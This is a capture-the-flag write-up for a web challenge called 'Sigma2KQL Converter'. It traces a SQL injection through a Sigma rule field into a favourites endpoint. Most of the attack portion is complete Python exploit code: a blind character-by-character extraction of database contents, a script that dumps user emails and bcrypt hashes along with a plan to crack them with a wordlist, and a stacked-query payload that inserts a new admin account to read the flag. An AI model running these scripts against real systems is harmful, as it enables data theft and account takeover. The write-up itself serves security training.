

# 🔥 Sigma2KQL Converter 🔥

###### Author: Tinius
###### Team: **Ekho**

---
Category: **Web**\
Solves: **3**\
Points: **999**

---

Handout:
```
.
├── admin
│   ├── Dockerfile
│   ├── app.py
│   ├── models.py
│   ├── requirements.txt
│   ├── static
│   │   └── style.css
│   ├── templates
│   │   ├── layout.html
│   │   ├── login.html
│   │   └── welcome.html
│   └── wsgi.py
├── db
│   └── Dockerfile
├── docker-compose.yml
├── nginx
│   ├── Dockerfile
│   ├── nginx.conf
│   ├── nginx.dev.conf
│   └── start.sh
├── portal
│   ├── Dockerfile
│   ├── app.py
│   ├── auth
│   │   ├── __init__.py
│   │   └── routes.py
│   ├── main
│   │   ├── __init__.py
│   │   └── routes.py
│   ├── models.py
│   ├── requirements.txt
│   ├── static
│   │   └── auth_style.css
│   ├── templates
│   │   ├── auth_base.html
│   │   ├── base.html
│   │   ├── combined_rules.html
│   │   ├── index.html
│   │   ├── layout.html
│   │   ├── login.html
│   │   ├── my_rules.html
│   │   └── register.html
│   └── wsgi.py
└── run.sh

```

## Finding the vulnerability

First we search for anything related to the flag for flag format.

In admin/app

We see this function:

```python
@app.route("/welcome")
def welcome():
    if not session.get("user_id"):
        return redirect(url_for("login"))
    flag = os.environ.get("FLAG", "Could not find flag")
    return render_template("welcome.html", username=session["username"], flag = flag)
```

Looking at the login funcitons we can see that it is protected so only admins can gain access. This make it clear that we somehow need to get either credentials or forge a cookie.
So the next thing to do is code analysis for any weaknesses or suspicious stuff.

After looking for a while I spot this in `portal/main/routes.py`:
```python
@bp.route("/api/combined-rules/favorites-status")
@login_required
def api_combined_rules_favorites_status():
    user_id = session["user_id"]
    converted_rules = (
        db.session.query(ConvertedRule.converted_kql_signature)
        .filter(ConvertedRule.user_id == user_id)
        .filter(ConvertedRule.is_favorite.is_(True))
        .filter(ConvertedRule.converted_kql.isnot(None))
        .filter(ConvertedRule.converted_kql != "")
        .all()
    )
    like_clauses = []
    for (converted_kql_signature,) in converted_rules:
        if not converted_kql_signature or not converted_kql_signature.strip():
            continue
        like_clauses.append(f"combined_kql_signature LIKE '%{converted_kql_signature}%'")
    if not like_clauses:
        return jsonify({"favorite_set_ids": []})

    where_fragment = " OR ".join(like_clauses)
    combined_rule_set_containing_favorites = f"""
        SELECT id FROM combined_rule_set
        WHERE user_id = {int(user_id)} AND ( {where_fragment} )
    """
    result = db.session.execute(text(combined_rule_set_containing_favorites)).fetchall()
    ids = [row[0] for row in result]
    return jsonify({"favorite_set_ids": ids})
```

First of this looks super sketchy, the sigma rule is completely user controlled so we can pretty much inject anything we want into the sql statement. Thanks to this line:

```python
like_clauses.append(f"combined_kql_signature LIKE '%{converted_kql_signature}%'")
```

This would be super easy if not for one problem, the function only returns ids. So to exfiltrate data from this endpoint, we can then use ```UNION SELECT ascii(substr(( … )::text, i, 1))``` to returns one ASCII character for each request and later build the whole string back together. 


## The exploit


### PoC

This program just executes `SELECT version()` and returns the data for a quick proof of concept.

```python
import os
import re, requests

BASE = "https://ekho-a035aabd-sigmaconverter.ept.gg"
PORTAL = BASE + "/portal"
s = requests.Session()

username = f"ctf{os.urandom(2).hex()}@ekho.sh"
password = "ekho" * 20

s.post(PORTAL + "/register", data={"username": username, "password": password}, allow_redirects=False)
r = s.post(PORTAL + "/login",    data={"username": username, "password": password}, allow_redirects=False)

payload = "SELECT version()"

out = []
for i in range(1, 241):
    s.post(PORTAL + "/delete-all-rules")
    expr = f"ascii(substr(( {payload} )::text, {i}, 1))"
    inj = "') UNION SELECT " + expr + " -- "
    yaml = (
        "title: p\n"
        "logsource:\n"
        "  product: windows\n"
        "  category: process_creation\n"
        "detection:\n"
        "  sel:\n"
        f'    CommandLine|contains: "{inj}"\n'
        "  condition: sel\n"
    )
    s.post(PORTAL + "/convert_yaml", json={"text": yaml}).raise_for_status()
    m = re.search(r'data-rule-id="(\d+)"', s.get(PORTAL + "/my-rules").text)
    rid = int(m.group(1))
    s.post(PORTAL + f"/toggle-favorite/{rid}").raise_for_status()
    ids = (s.get(PORTAL + "/api/combined-rules/favorites-status").json().get("favorite_set_ids") or [])
    if not ids:
        break
    code = max(ids)
    if code in (0, 10) or not (0 <= code <= 255):
        break
    out.append(chr(code))

print(out)
print("".join(out))

```

Returns:

```
['P', 'o', 's', 't', 'g', 'r', 'e', 'S', 'Q', 'L', ' ', '1', '7', '.', '6', ' ', '(', 'D', 'e', 'b', 'i', 'a', 'n', ' ', '1', '7', '.', '6', '-', '1', '.', 'p', 'g', 'd', 'g', '1', '3', '+', '1', ')', ' ', 'o', 'n', ' ', 'x', '8', '6', '_', '6', '4', '-', 'p', 'c', '-', 'l', 'i', 'n', 'u', 'x', '-', 'g', 'n', 'u', ',', ' ', 'c', 'o', 'm', 'p', 'i', 'l', 'e', 'd', ' ', 'b', 'y', ' ', 'g', 'c', 'c', ' ', '(', 'D', 'e', 'b', 'i', 'a', 'n', ' ', '1', '4', '.', '2', '.', '0', '-', '1', '9', ')', ' ', '1', '4', '.', '2', '.', '0', ',', ' ', '6', '4', '-', 'b', 'i', 't']
PostgreSQL 17.6 (Debian 17.6-1.pgdg13+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 14.2.0-19) 14.2.0, 64-bit
```

We now have working data exfiltration. 

### Dumping the users (rabit hole)

One huge issue here is that it takes a lot of time to exhilarate data as one request is one character for the DB.

To dump the users we slightly modify the script above to execute this query:

```sql
ascii(substr(( SELECT ROW(u.*)::text FROM users u ORDER BY id LIMIT 1 OFFSET {off} )::text, {i}, 1))
```
```python
import os, re, requests, csv, io
import time

BASE = "https://ekho-a035aabd-sigmaconverter.ept.gg"
PORTAL = BASE + "/portal"
s = requests.Session()

username = f"ctf{os.urandom(2).hex()}@ekho.sh"
password = "ekho" * 20


def decode_pw_hash_field(field: str):
    if field == "" or field.upper() == "NULL":
        return None, None
    if field.startswith("\\x") or field.startswith("\\X"):
        try:
            hx = field[2:]
            bt = bytes.fromhex(hx)
            try:
                s = bt.decode("ascii", "ignore")
                if s.startswith("$2"):
                    return s, bt
                else:
                    return s, bt
            except Exception:
                return None, bt
        except Exception:
            return field, None
    return field, field.encode("utf-8", "ignore")


s.post(PORTAL + "/register", data={"username": username, "password": password}, allow_redirects=False)
r = s.post(PORTAL + "/login",    data={"username": username, "password": password}, allow_redirects=False)

start_time = time.time()

for off in range(0, 500):
    row_txt = []
    for i in range(1, 2001):
        s.post(PORTAL + "/delete-all-rules")
        expr = f"ascii(substr(( SELECT ROW(u.*)::text FROM users u ORDER BY id LIMIT 1 OFFSET {off} )::text, {i}, 1))"
        inj  = "') UNION SELECT " + expr + " -- "
        yaml = (
            "title: p\n"
            "logsource:\n"
            "  product: windows\n"
            "  category: process_creation\n"
            "detection:\n"
            "  sel:\n"
            f'    CommandLine|contains: "{inj}"\n'
            "  condition: sel\n"
        )
        s.post(PORTAL + "/convert_yaml", json={"text": yaml}).raise_for_status()
        html = s.get(PORTAL + "/my-rules").text
        ids_on_page = re.findall(r'data-rule-id="(\d+)"', html)
        if not ids_on_page:
            break
        rid = int(ids_on_page[-1])
        s.post(PORTAL + f"/toggle-favorite/{rid}").raise_for_status()
        ids = (s.get(PORTAL + "/api/combined-rules/favorites-status").json().get("favorite_set_ids") or [])
        if not ids: break
        code = max(ids)
        if code in (0, 10) or not (0 <= code <= 255):
            break
        row_txt.append(chr(code))
    row = "".join(row_txt)
    if not row:
        break

    if row.startswith("(") and row.endswith(")"):
        inner = row[1:-1]
        fields = next(csv.reader(io.StringIO(inner), delimiter=",", quotechar='"', escapechar="\\"), [])
        if len(fields) >= 4:
            time_taken = time.time() - start_time
            print(f"Time for user {fields[1]}: {time_taken:.2f} seconds")
            print(f"id={fields[0]} user={fields[1]} admin={fields[3] == "t"} hash={decode_pw_hash_field(fields[2])[0]}")
            continue
    print(row)
```

Output:
```
Time for user mary.irwin.contractors@itsupport.convert-sigma-rules.co.uk: 80.48 seconds
id=1 user=mary.irwin.contractors@itsupport.convert-sigma-rules.co.uk admin=True hash=$2b$12$R1vUxkpJPCXpNqZ2V5aUd.At9FhlsBA7zwGNfoBDu9KT62JbsReba
Time for user krystalweeks@bradshaw.com: 144.41 seconds
id=2 user=krystalweeks@bradshaw.com admin=False hash=$2b$12$HLkJYu7U7zNKl9YyLtTM8uzIpbbVtO1bCEGG1dW7/Yf6FRhcZOICm
Time for user david.cruz.contractors@itsupport.convert-sigma-rules.co.uk: 221.77 seconds
id=3 user=david.cruz.contractors@itsupport.convert-sigma-rules.co.uk admin=True hash=$2b$12$7scgm9qRNBncTp2WJukD..PtV1Gy.NvCj/DB/kWo2mwVxc6GxweFG
...
```

I have added timing to illustrate just how long each user dump takes, the current theory at the time was that hopefully one user has a weak password.
Meanwhile, i sent the hashes to my teammate Panders, because he has a powerfull GPU so we maybe could crack the hashes and then we could log in as an admin account.

So we strarted trying to crack the first two users using rockyou on an RTX4070. At the same time i dumped more and more users, maybe one had a weak password.

40 minutes later, I think we had gone through roughly 5% of rockyou (bcrypt needs alot of computing power) I had dumped:

```
id=1  user=michelle.dunn@itsupport.convert-sigma-rules.co.uk  admin=True  hash=(bcrypt) $2b$12$vBjfBVgODHw.3b52lp3zEeb2mfFQT5XmfV.qS.Ftv5R.Mn3l0PrGm
id=2  user=kenneth.bradley@itsupport.convert-sigma-rules.co.uk  admin=True  hash=(bcrypt) $2b$12$mpbGxULxOn35WwV6Jcj86OLPII/l2MpOph8GpREgnU.6UIWUuwb/u
id=3  user=lisa.soto@itsupport.convert-sigma-rules.co.uk  admin=True  hash=(bcrypt) $2b$12$jVPq8Gr9DHp1SfAv7bdfqODzIopgtKdD1kOTYsy2jzIFZpjri5yuC
id=4  user=amy.smith.contractors@itsupport.convert-sigma-rules.co.uk  admin=True  hash=(bcrypt) $2b$12$vMBuyNQrAixKbGms/PNSxuqF.M3cIgQZpXc/2t6mPFrO0BOizRxQa
id=5  user=roy90@white-hancock.com  admin=False  hash=(bcrypt) $2b$12$z6tv.glW3e10v8rhrcTkZuvlHy0az9BP54St9sjs99/NszWUtUCfS
...
id=47  user=dhaley@thomas-gomez.com  admin=False  hash=(bcrypt) $2b$12$QBuNBJf1XwYayrMymCFuO.v0yzQgFktaHAGW8W0TSpVeRRXN6mblC
id=48  user=david.mason@itsupport.convert-sigma-rules.co.uk  admin=True  hash=(bcrypt) $2b$12$uve9Za5iuilIz0RtTDZ0.Oq2wyCNEZsk/4AKRT1Dv2yUBAcnZ3.yq
id=49  user=patrick.johnson@itsupport.convert-sigma-rules.co.uk  admin=True  hash=(bcrypt) $2b$12$XS4xuwahFRracaTog436rO5lajENWYmFazB248hLtKn1ue.VhEOX2
id=50  user=elliottlisa@smith.com  admin=False  hash=(bcrypt) $2b$12$cQwoy5qxh/tbTCNu80XGIefHJFvKdoisUa7BltO7qgpdv3YVENAJy
id=51  user=alexis.gray@itsupport.convert-sigma-rules.co.uk  admin=True  hash=(bcrypt) $2b$12$0LidS701kBTl.72kLk.r8eoOV1MEw29ShiqjAG0YwSKBWMZFcfxui
```

Then when I was about to hand the new hashes over to Panders I got a new idea.

### Getting the new flag
Since trying to crack the hashes with rockyou and dumping the users was too time-consuming. What if we instead of reading the DB could just inject a new admin user?

This aproach works much more efficiently in theory, since we don't need to exfiltrate data using a lot of requests, we can do everything with a lot less requests.  

Using the sql command:
```sql
INSERT INTO users VALUES (DEFAULT,'admin@ekho.sh', decode('24326224313224444f32633139663448697445542f7a646e7644307a65586458354b6450377145716e6363397a68366e42576f366c52763647314d53','hex'), true); COMMIT; SELECT 1; -- 
```

We can inject admin@ekho.sh with our own password with admin as true.

Python script:

```python
import re, requests, bcrypt, secrets

BASE = "https://ekho-a035aabd-sigmaconverter.ept.gg"
PORTAL = BASE + "/portal"
ADMIN = BASE + "/admin"
s = requests.Session()

u = f"ekho{secrets.token_hex(2)}@ekho.sh"
p = "A"*20
s.post(PORTAL+"/register", data={"username":u,"password":p})
s.post(PORTAL+"/login",    data={"username":u,"password":p})

adm_u = f"admin@ekho.sh"
adm_p = "ekho"*5
hexhash = bcrypt.hashpw(f"{adm_u}{adm_p}".encode()[:72], bcrypt.gensalt()).hex()

inj = f"'); COMMIT; INSERT INTO users VALUES (DEFAULT,'{adm_u}', decode('{hexhash}','hex'), true); COMMIT; SELECT 1; -- "
yaml = (
    "title: p\nlogsource:\n  product: windows\n  category: process_creation\n"
    "detection:\n  sel:\n"
    f'    CommandLine|contains: "{inj}"\n'
    "  condition: sel\n"
)

s.post(PORTAL+"/convert_yaml", json={"text":yaml}).raise_for_status()
m = re.search(r'data-rule-id="(\d+)"', s.get(PORTAL+"/my-rules").text); rid = int(m.group(1))
s.post(PORTAL+f"/toggle-favorite/{rid}").raise_for_status()
s.get(PORTAL+"/api/combined-rules/favorites-status").raise_for_status()

print("Done")

```


Signing in with the credentials:
`admin@ekho.sh:ekhoekhoekhoekhoekho`

We see:


`EPT{6929dec8-3312-4341-9ee6-75faacda2562}`